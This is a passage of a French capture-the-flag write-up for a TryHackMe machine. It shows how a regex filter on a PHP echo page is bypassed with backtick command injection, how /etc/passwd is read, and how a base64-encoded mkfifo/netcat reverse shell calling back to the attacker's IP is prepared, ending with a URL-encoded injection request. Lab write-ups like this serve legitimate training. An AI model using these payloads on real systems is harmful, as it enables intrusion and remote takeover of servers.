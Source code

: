 On fait un test en mettant du code php pour exécuter une commande mais il y un message qui fait penser que des caractères sont filtrés.  

Dans astuce on voit qu'il y a bien un filtrage regex.  

![page](./Task1-12.png)   

Avec echo `` on peut lancer des commandes.   
On lit le fichier /etc/passwd ça fonctionne.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
```

On écoute sur le port 1234.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'rm /tmp/f;mkfifo /tmp/f; cat /tmp/f | /bin/sh  -i 2>&1| nc 10.9.228.66  1234   >/tmp/f   ' | base64
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoICAtaSAyPiYxfCBu
YyAxMC45LjIyOC42NiAgMTIzNCAgID4vdG1wL2YgICAK
``` 

On génère notre shell en base64 sans = et + mettre des espaces pour les faires disparaitres.  

```bash
http://minautor.thm/echo.php?search=%60ls+-al+%2Ftmp%2Fshell.sh%60
```

